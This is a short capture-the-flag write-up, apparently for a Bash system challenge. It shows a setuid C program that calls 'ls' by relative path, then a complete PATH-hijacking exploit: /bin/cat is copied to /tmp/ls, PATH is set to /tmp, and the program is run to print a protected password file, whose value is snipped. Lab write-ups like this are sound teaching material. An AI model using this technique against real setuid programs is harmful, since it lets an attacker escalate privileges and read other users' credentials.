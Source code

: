# Bash System 1 - Writeup

We have this script
```c
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main(void)
{
    setreuid(geteuid(), geteuid());
    system("ls /challenge/app-script/ch11/.passwd");
    return 0;
}

```
With a `ll`, we can also see that we execute this script with the owner's rights, being 'app-script-ch11-cracked', the same owner as '.passwd'
```bash
app-script-ch11@challenge02:~$ ll
-r-sr-x---  1 app-script-ch11-cracked app-script-ch11 7252 May 19  2019 ch11*
```
Which means that everything being done in the script is executed "by the owner".

But we don't want to `ls .passwd`, we want to see what's inside, by using `cat` for example.

So we want to use `cat` istead of `ls` in the script.

One way to do it is to copy the cat executable and rename it 'ls', then changing our `$PATH` to the directory that contains ou new cat executable.
```bash
app-script-ch11@challenge02:~$ cp /bin/cat /tmp/ls

app-script-ch11@challenge02:~$ PATH=/tmp
```

Then we can execute the script, which will cat the password for us
```bash
app-script-ch11@challenge02:~$ ./ch11
!oPe[... flag snipped ...]5
```